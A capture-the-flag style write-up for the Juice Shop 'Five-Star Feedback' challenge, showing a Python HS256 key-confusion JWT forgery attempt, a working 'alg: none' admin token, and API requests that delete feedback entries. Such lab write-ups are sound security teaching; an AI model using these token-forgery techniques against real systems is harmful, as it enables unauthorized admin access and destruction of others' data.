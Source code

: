 # Five-Star Feedback

**Category**: Broken Access Control  
**Difficulty**: 4  

---

### 🧠 Description

Was able to delete **all five-star feedbacks** despite not being an administrator. This was possible due to weak JWT validation and access control flaws.

---

### 🛠 Solution

**It is highly possible that we can ommit steps 1-4 to unlock this challenge**

1. I analyzed the JWT token stored in browser DevTools (localStorage.token).

2. I attempted to forge a valid JWT using jwt_tool.py and Python’s pyjwt, trying two methods:
   
   - RS256 with the public key obtained from .well-known/security.txt
   
   - Changing algorithm to HS256 and using the public key as the HMAC secret:
     
     ```
          import jwt
     
     with open("public.pem") as f:
     
         key = f.read()
     
     payload = {
     
         "email": "admin@juice-sh.op",
         "role": "admin"
     
     }
     
     token = jwt.encode(
     
         payload, key, algorithm="HS256",
         headers={"alg": "HS256", "typ": "JWT"}
     
     )
     
     print(token)
     ```
     
     → These attempts returned either 401 Unauthorized or no elevated access.

3. I succeeded by crafting a JWT with "alg": "none", disabling signature verification:
   
   {
     "alg": "none",
     "typ": "JWT"
   }
   .
   {
     "email": "admin@juice-sh.op",
     "role": "admin"
   }
   .

4. I replaced the JWT in the Authorization: 
   
   ```
   Bearer <TOKEN> header using Burp Suite.
   ```

5. Verified admin privileges:
   GET /rest/user/whoami

6. Listed all feedbacks:
   GET /api/Feedbacks

7. Deleted entries with "rating": 5:
   DELETE /api/Feedbacks/<id>

Challenge successfully completed.
